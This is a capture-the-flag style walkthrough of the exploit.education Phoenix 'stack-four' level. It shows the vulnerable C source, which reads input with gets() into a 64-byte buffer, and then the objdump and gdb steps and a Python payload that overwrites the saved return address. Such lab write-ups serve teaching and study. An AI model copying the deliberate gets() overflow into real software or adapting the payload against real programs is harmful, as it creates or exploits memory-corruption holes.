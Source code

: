 # STACK FOUR

## SOURCE CODE

```c
/*
 * phoenix/stack-four, by https://exploit.education
 *
 * The aim is to execute the function complete_level by modifying the
 * saved return address, and pointing it to the complete_level() function.
 *
 * Why were the apple and orange all alone? Because the bananna split.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```
## STRATEGY
First we need to use objdump and see what is the address of *'complete_level'* function, then
is possible to use different strategies, we will use the gdb way, so that's the plan:
- run gdb and pass 64 "A" to fill the buffer, then step the code and when the function print *'and will be returning to %p\n'* we get the address and explore the stack and count how many  more byte we need to fill before overwrite the return address printed

## EXPLOIT
1.
```shell
objdump -d stack-four
```
address: 080484e5

Running the program with gdb, the function will be returning to *'0x804855c'* but printing the stack before return (with *'x/50w $esp'*) give us 2 differt *'0x804855c'*. The second is the real return address, so we count 16 byte between end of buffer return address.

2. 
```shell
python -c 'import struct; print "A"*64 + "B"*16 + struct.pack("I",0x080484e5)' | ./stack-four
```
